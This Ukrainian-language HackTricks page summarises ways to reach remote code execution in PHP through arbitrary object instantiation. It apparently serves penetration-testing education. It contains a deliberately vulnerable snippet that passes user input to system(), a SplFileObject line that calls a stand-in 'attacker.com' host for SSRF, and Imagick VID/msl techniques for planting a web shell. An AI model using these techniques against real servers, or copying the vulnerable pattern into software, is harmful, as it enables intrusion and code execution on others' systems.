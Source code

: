 # PHP - RCE зловживання створенням об'єктів: new $\_GET\["a"]\($\_GET\["b"])

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на GitHub.

</details>
{% endhint %}

Це, по суті, резюме [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

## Вступ

Створення нових довільних об'єктів, таких як `new $_GET["a"]($_GET["a"])`, може призвести до віддаленого виконання коду (RCE), як детально описано в [**статті**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/). Цей документ підкреслює різні стратегії для досягнення RCE.

## RCE через користувацькі класи або автозавантаження

Синтаксис `new $a($b)` використовується для створення об'єкта, де **`$a`** представляє ім'я класу, а **`$b`** є першим аргументом, переданим конструктору. Ці змінні можуть бути отримані з введення користувача, таких як GET/POST, де вони можуть бути рядками або масивами, або з JSON, де вони можуть представлятися як інші типи.

Розгляньте фрагмент коду нижче:
```php
class App {
function __construct ($cmd) {
system($cmd);
}
}

class App2 {
function App2 ($cmd) {
system($cmd);
}
}

$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
У цьому випадку, встановлення `$a` на `App` або `App2` і `$b` на системну команду (наприклад, `uname -a`) призводить до виконання цієї команди.

**Функції автозавантаження** можуть бути використані, якщо такі класи не є безпосередньо доступними. Ці функції автоматично завантажують класи з файлів за потреби і визначаються за допомогою `spl_autoload_register` або `__autoload`:
```php
spl_autoload_register(function ($class_name) {
include './../classes/' . $class_name . '.php';
});

function __autoload($class_name) {
include $class_name . '.php';
};

spl_autoload_register();
```
PHP-версії по-різному обробляють автозавантаження, пропонуючи різні можливості RCE.

## RCE через вбудовані класи

Відсутність користувацьких класів або автозавантажувачів, **вбудовані класи PHP** можуть бути достатніми для RCE. Кількість цих класів коливається від 100 до 200, залежно від версії PHP та розширень. Їх можна перерахувати за допомогою `get_declared_classes()`.

Конструктори, що представляють інтерес, можна визначити за допомогою рефлексії API, як показано в наступному прикладі та за посиланням [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF).

**RCE через специфічні методи включає:**

### **SSRF + Phar десеріалізація**

Клас `SplFileObject` дозволяє SSRF через свій конструктор, що дозволяє підключення до будь-якого URL:
```php
new SplFileObject('http://attacker.com/');
```
SSRF може призвести до атак десеріалізації в версіях PHP до 8.0, використовуючи протокол Phar.

### **Експлуатація PDO**

Конструктор класу PDO дозволяє підключення до баз даних через рядки DSN, що потенційно дозволяє створення файлів або інші взаємодії:
```php
new PDO("sqlite:/tmp/test.txt")
```
### **SoapClient/SimpleXMLElement XXE**

Версії PHP до 5.3.22 та 5.4.12 були вразливими до атак XXE через конструктори `SoapClient` та `SimpleXMLElement`, залежно від версії libxml2.

## RCE через розширення Imagick

У процесі аналізу **залежностей проєкту** було виявлено, що **Imagick** може бути використаний для **виконання команд** шляхом створення нових об'єктів. Це створює можливість для експлуатації вразливостей.

### VID парсер

Було виявлено, що можливість VID парсера записувати вміст у будь-який вказаний шлях у файловій системі. Це може призвести до розміщення PHP shell у каталозі, доступному через веб, досягаючи віддаленого виконання коду (RCE).

#### VID Parser + Завантаження файлів

Зазначено, що PHP тимчасово зберігає завантажені файли в `/tmp/phpXXXXXX`. VID парсер в Imagick, використовуючи протокол **msl**, може обробляти шаблони в шляхах до файлів, що полегшує передачу тимчасового файлу до вибраного місця. Цей метод пропонує додатковий підхід для досягнення довільного запису файлів у файловій системі.

### PHP Збій + Брутфорс

Метод, описаний у [**оригінальному звіті**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/), передбачає завантаження файлів, які викликають збій сервера перед видаленням. За допомогою брутфорсу імені тимчасового файлу, стає можливим для Imagick виконати довільний PHP код. Однак, ця техніка виявилася ефективною лише в застарілій версії ImageMagick.

## Посилання

* [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
